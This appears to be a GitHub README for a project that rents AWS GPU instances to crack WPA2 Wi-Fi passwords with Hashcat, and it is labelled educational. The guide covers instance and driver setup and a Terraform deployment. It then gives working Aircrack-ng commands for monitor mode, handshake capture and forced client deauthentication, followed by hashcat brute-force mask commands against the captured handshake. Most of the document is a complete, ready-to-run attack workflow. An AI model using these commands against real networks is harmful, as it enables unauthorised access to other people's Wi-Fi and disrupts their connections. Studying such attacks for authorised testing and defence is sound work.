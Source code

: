 # AWS & HashCat

A AWS &amp; Hashcat environment for WPA2 Brute force attack (educational purposes only).

## Introduction

One big question when it comes to breaking passwords by brute force is: How long will it take?

While the password  **112233** would only take 1 second to be discovered through trial and error, consisting of several combinations, a password like **fDb#E!*##12c** would take 4 centuries, according to [Kaspersky Calculator](https://password.kaspersky.com/?/utm_medium=rdr&utm_source=redirector&utm_campaign=old_url). The problem is that it is not enough to have a "Gamer" computer, it will not be enough if the password is a bit more complex, we often have even modest computers.

An alternative is to use **AWS** to accomplish this task, there are very powerful **EC2** instances in which we can enjoy paying for hours of use.

We can use instances of type P3 for example, which contains the following configuration:

Name | GPUs | GPU Mem | vCPU | Mem (GiB) | Cost/hour 
-----|------|---------|------|-----------|----------
p3.2xlarge | 1 | 16 | 4 | 61 | $ 3.06 
p3.8xlarge | 8 | 64 | 32 | 244 | $ 12.24
p3.16xlarge | 8 | 128 | 64 | 488 | $ 24.48
p3dn.24xlarge | 8 | 256 | 96 | 768 | $ 31.218
p4d.24xlarge | 8 | not specified | 96 | 1152 | $ 32.77

You can be able to save up to 70% by using spot instance.

## Prerequisites

To perform this process you must have the following requirements:

* Knowledge of Linux
* Account with AWS
* Be willing to spend

## Configuration

With the pre requisites fulfilled hands down.

### Uploading Instance

1. Select the AMI Debian 10
1. Choose the type, in this example I'll use **p3.2xlarge**
1. Configure the details, storage, security group, key pair, etc.
1. After creating the instance make the connection via SSH

At this point we will do the initial configuration.

### Configuration

Update and upgrade apt

```
sudo apt update && sudo apt upgrade -y
```

Install the packages

```
sudo apt install -y --ignore-missing build-essential tmux htop vim jq unzip lsof git p7zip-full
```

Set the correct timezone

```
ln -sf /usr/share/zoneinfo/America/Sao_Paulo /etc/localtime
```

Create the file **blacklist-nouveau.conf**

```
sudo vim /etc/modprobe.d/blacklist-nouveau.conf
```

Enter the following lines

```
nouveau blacklist
blacklist lbm-nouveau
options nouveau modeset = 0
alias nouveau off
alias lbm-nouveau off
```

Create the file **nouveau-kms.conf**

```
sudo vim /etc/modprobe.d/nouveau-kms.conf
```
Enter the following line

```
options nouveau modeset = 0
```

And then upgrade initramfs

```
sudo update-initramfs -u
```

At this point reboot your server to continue
```
reboot
```

Install linux headers
```
sudo apt install -y linux-headers-`uname -r`
```

Download NVIDIA drivers and install

```
cd /tmp/
wget https://us.download.nvidia.com/tesla/470.57.02/NVIDIA-Linux-x86_64-470.57.02.run
sudo /bin/bash NVIDIA-Linux-x86_64-470.57.02.run --ui=none --no-questions --silent -X

```

Download HashCat and install

```
cd /tmp/
wget https://hashcat.net/files/hashcat-6.2.4.7z >/dev/null 2>&1
7za x hashcat-6.2.4.7z >/dev/null 2>&1
mv hashcat-6.2.4 /home/admin/
ln -s /home/admin/hashcat-6.2.4/hashcat.bin /usr/local/bin/hashcat
```

At this point you can put your **.hc22000** files on the server, if you have captured the handshake through **Aircrack-ng** you can convert the file **.cap** to **.hc22000** without much trouble, a very simple alternative is to use a tool called [cap2hashcat](https://hashcat.net/cap2hashcat/) from HashCat itself.

Now just launch the command and wait for the password to be discovered, for more information on usage consult HashCat [Documentation](https://hashcat.net/wiki/).

## Using Aircrack-ng to get handshake

Install aircrack-ng
```
sudo apt install aircrack-ng
```

Put the interface into monitoring mode
```
sudo airmon-ng start wlan0
```

If the interface is busy
```
sudo airmon-ng check kill
```

check candidates
```
sudo airodump-ng wlan0mon
```

Once chosen stop it and start capture
```
sudo airodump-ng -c CHANNEL --bssid MAC -w /tmp/wificapfile wlan0mon
```

To make faster the capture, you can force the reauthentication
```
sudo aireplay-ng -0 2 -a MAC -c MAC wlan0mon
```

Little explanation
```
-0 2: number of requests
-a: access point MAC address
-c: client MAC address
```

You will see in the top right corner when the handshake is captured, then stop the capture and convert the file using **cap2hashcat** tool.

## Terraform project

You must have the following packages

* aws-cli
* terraform


Configure the aws credentials
```
aws configure
```

Init Terraform

```
terraform init
```

Apply
```
terraform apply
```

At this point all the environment and spot instance machine will be created, and the **initial-script.sh** located in scripts folder will be automatically launched, once finished reboot the server.
```
reboot
```

Then run **hashcat.sh** to install nvidia drivers and hashcat.
```
/home/admin/hashcat.sh
```

## How to use Hashcat

There is some example bellow, you can consult the official documentation as well.

Send the file to the server
```
scp -i aws-hcat-prod.pem wificapfile.hc22000 admin@<IP ADDRESS>:/home/admin/
```

Hashcat brute force examples
```
hashcat -m 22000 wificapfile.hc22000 -a 3 ?d?d?d?d?d?d?d?d
hashcat wificapfile.hc22000 -m 22000 -a 3 ?H?H?H?HHELLOWORLD
```
